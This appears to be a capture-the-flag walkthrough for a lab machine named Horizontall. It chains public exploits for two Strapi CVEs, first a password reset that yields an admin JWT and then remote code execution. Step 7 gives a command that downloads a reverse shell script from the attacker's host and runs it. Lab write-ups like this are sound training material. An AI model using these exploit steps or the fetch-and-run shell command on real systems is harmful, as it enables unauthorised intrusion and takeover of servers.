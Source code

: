 *Steps to reproduce:*

1. Go to Exploit-db and copy [this](https://www.exploit-db.com/exploits/50239) script.
2. Open a text editor and save it as ``CVE-2019-18818.py`` (or any filename you like).
3. On your terminal, type:

    ``python3 CVE-2019-18818.py api-prod.horizontall.htb``

4. Copy the [JWT](https://jwt.io/) token produced by the script and save it for later. Output should be like this:

![Successful Password Reset](../imgs/Horizontall/successful_RCE.png)

5. We can now login on the web server.

![Logged in as admin on webserver](../imgs/Horizontall/successfully_logged_in_via_reset_passwordVuln.png)

6. Looking back at our status, we are now authenticated as admin. We can use the exploit script [CVE-2019-19609](https://packetstormsecurity.com/files/163940/Strapi-3.0.0-beta.17.7-Remote-Code-Execution.html) to get a shell on machine.

7. On your terminal,type:

    ``python3 strapi17-4_RCE.py http://api-prod.horizontall.htb {JWT_TOKEN_HERE} 'wget http://{YOUR_IP}:{PORT}/{REVERSE_SHELL_FILE};chmod +x s.sh;bash s.sh' {YOUR_IP}``
